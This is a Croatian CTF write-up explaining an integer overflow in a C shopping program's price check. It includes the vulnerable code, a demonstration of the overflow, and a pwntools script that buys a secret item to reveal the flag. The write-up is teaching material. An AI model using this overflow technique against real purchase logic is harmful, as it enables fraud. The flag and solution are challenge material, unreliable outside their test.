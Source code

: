 # Writeup

## Otkrivanje ranjivosti

Detaljnom analizom izvornog koda programa, uočena je potencijalna ranjivost programa **integer overflow** kod kupovine stvari. 

Isječak koda koji sadrži ranjivost:
```
if(dostupneStvari[opcija-1].cijena * kolicina <= novac){
		novac-= dostupneStvari[opcija-1].cijena;
		printf("Kupljeno: %s (%dx)\n", dostupneStvari[opcija-1].ime,kolicina);
		
		if(opcija-1 == 4){
			tajnaStvarKupljena();
		}
		
		return;
}
```
Kako bi izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` bio istinit, može se za količinu stvari _Super tajna stvar_ unijeti jako veliki broj koji će zbog integer overflow-a zadovoljiti izraz.

## Objašnjenje ranjivosti

Najveća moguća vrijednost varijable tipa int u C programskom jeziku je ```2 147 483 647```. Ako integer varijabla sadrži tu najveću vrijednost i inkrementira se za jedan, tada će nova vrijednost biti ```-2 147 483 648```. To se događa zbog integer overflow-a, gdje se nakon dosezanja najveće moguće vrijednosti 32-bitnog int tipa (2 147 483 647) inkrementiranjem prelazi u negativni raspon zbog dvokomplementarnog prikaza brojeva, gdje se najviši bit koristi za znak broja. Na sljedećoj slici prikazan je primjer integer overflow-a u 8-bitnom dvodopunskom prikazu brojeva (32 bitni prikaz je slični).

![slika](https://github.com/user-attachments/assets/cf8c8832-7cf6-407f-92f5-4d14117470fb)




Izrađen je program koji za količinu uzima broj ```99999999999``` i pomnožimo ga s cijenom stvari _Super tajna stvar_:
```#include "stdio.h"
int main()
{
    int kolicina = 99999999999;
    int cijena = 2232350;
    printf("Kolicina = %d\n", kolicina);
    printf("cijenaijena = %d\n", cijena);
    printf("Umnozak = %d\n", kolicina*cijena);

    return 0;
}
```

Izlaz programa je:
```
Kolicina = 1215752191
cijenaijena = 2232350
Umnozak = -1135796254
```

Izraz ```dostupneStvari[opcija-1].cijena * kolicina <= novac``` postaje ```-1135796254 <= novac```. Pošto je ```novac``` uvijek veći ili jednak nuli, izraz postaje istinit.


## Iskorištenje ranjivosti

Rješenje:
```
from pwn import *

io = process("./kupovina") #da možemo slati i primati podatke od procesa
elf = ELF("./kupovina") #omogućava pwn tools da može pročitati gdje su adrese funkcija

# = = = START

print(io.recvuntil(b"Odabir:")) #pricekaj ovaj output
#b ispred stringa veli pythonu da on to tretiura kao bytove, jer python ima neke druge UTF-8 stringove

io.sendline(b"3") #biranje opcije 3

print(io.recvuntil(b"Odaberite stvar koju zelite kupiti (0 za izlaz):")) 
io.sendline(b"5") #biranje opcije 3

payload = b""
payload += b"9" * 11

# = = = END

io.sendline(payload) #slanje exploita
print(payload)

io.interactive(); #prebacuje stdin i stdout na standardni ulaz i izlaz, vraća kontrolu korisniku (terminalu)

```


Pokretanjem ove skripte, ispiše se flag ```CTFFOI[1nt3ger_0VERFL0W]```.
